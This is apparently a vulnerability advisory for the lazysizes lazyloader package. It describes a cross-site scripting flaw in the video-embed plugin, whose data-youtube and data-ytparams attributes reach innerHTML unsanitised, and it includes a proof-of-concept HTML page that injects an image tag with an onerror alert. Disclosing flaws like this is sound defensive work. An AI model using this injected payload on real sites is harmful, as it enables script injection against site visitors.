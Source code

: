 # Overview

`org.webjars.bowergithub.afarkas:lazysizes` is a fast (jank-free), SEO-friendly and self-initializing lazyloader for images (including responsive images picture/srcset), iframes, scripts/widgets and much more. It also prioritizes resources by differentiating between crucial in view and near view elements to make perceived performance even faster.

This package is vulnerable to Cross-site Scripting (XSS) due to unsafe usage of `innerHTML`. The following attributes are not sanitized by the video-embed plugin: `data-vimeo`, `data-vimeoparams`, `data-youtube` and `data-ytparams` which can be abused to inject malicious JavaScript.

# Proof of Concept

```
<html>
<head>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/lazysizes/5.2.0/lazysizes.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/lazysizes/5.2.0/plugins/video-embed/ls.video-embed.min.js"></script>
</head>
<body>
    <div class="ratio-16-9 lazyload%22 data-youtube="M7lc1UVf-VE%22 data-ytparams="&quot;&gt;&lt;/iframe&gt;&lt;img src=x onerror=alert(1%29&gt;">
        <button class="play-btn">play</button>
    </div>
</body>
</html>
```
